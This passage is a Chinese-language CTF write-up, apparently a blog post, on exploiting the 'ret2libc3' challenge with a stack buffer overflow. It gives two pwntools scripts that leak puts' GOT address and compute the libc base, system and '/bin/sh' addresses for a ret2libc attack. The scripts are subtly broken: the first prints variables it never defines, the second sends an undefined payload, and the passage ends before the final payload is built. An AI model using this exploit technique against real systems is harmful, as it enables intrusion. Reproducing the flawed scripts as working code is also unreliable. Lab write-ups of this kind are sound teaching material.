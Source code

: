 ![](https://img-blog.csdnimg.cn/dc718bd970d446828c4ebac905b73bb4.png#crop=0&crop=0&crop=1&crop=1&id=R7PsX&originHeight=92&originWidth=418&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />栈大小为112。

<a name="ad6477e1-1"></a>
##### 构造payload并写出脚本：

脚本1,用于泄露puts函数的真实地址，即got表地址。

```python
#!/usr/bin/env python
from pwn import *

elf=ELF('ret2libc3')
p=process('./ret2libc3')
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
start_addr = elf.symbols['_start']
#获取_start函数的地址是为了方便一会返回到此处，进行第二次栈溢出。
payload1='A'*112+p32(puts_plt)+p32(start_addr)+p32(puts_got)
p.sendlineafter("!?",payload1)
puts_addr=u32(p.recv(4))
print("puts_got_addr = ",hex(puts_got_addr))
print("puts_plt_addr = ",hex(puts_plt_addr))
print("main_plt_addr = ",hex(main_plt_addr))
print("puts addr = ", hex(puts_addr))
#打印出puts函数的真实地址。
p.interactive()
```

运行上面的代码之后就可以得到puts函数的真实地址，然后去libcsearch的网站查询之后，可得到puts函数，system函数，/bin/sh字符串对应的偏移地址。<br />![](https://img-blog.csdnimg.cn/66db2c69d62a4149868ab50a5c933698.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=KFCdZ&originHeight=701&originWidth=1536&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />知道了puts函数的真实地址和偏移之后，就可以将puts函数的真实地址减去偏移地址，得到libc的基址，将libc的基址分别与system，/bin/sh字符串的偏移相加，就可以得到对应的真实地址，然后就可以构造payload2了。

```python
from pwn import *

p = process('./ret2libc3')
elf = ELF('./ret2libc3')

puts_got_addr = elf.got['puts']
puts_plt_addr = elf.plt['puts']
main_plt_addr = elf.symbols['_start']

print("puts_got_addr = ",hex(puts_got_addr))
print("puts_plt_addr = ",hex(puts_plt_addr))
print("main_plt_addr = ",hex(main_plt_addr))


p.recv()
p.sendline(payload)

puts_addr = u32(p.recv()[0:4])
print("puts_addr = ",hex(puts_addr))
sys_offset = 0x03cd10
puts_offset = 0x067360
sh_offset = 0x17b8cf

#根据公式  libc基地址  +  函数偏移量   =  函数真实地址   来计算
libc_base_addr = puts_addr - puts_offset #计算出libc基地址
sys_addr = libc_base_addr + sys_offset #计算出system的真实地址
sh_addr = libc_base_addr + sh_offset #计算出/bin/sh的真实地址

print("libc_base_addr = ",hex(libc_base_addr))
```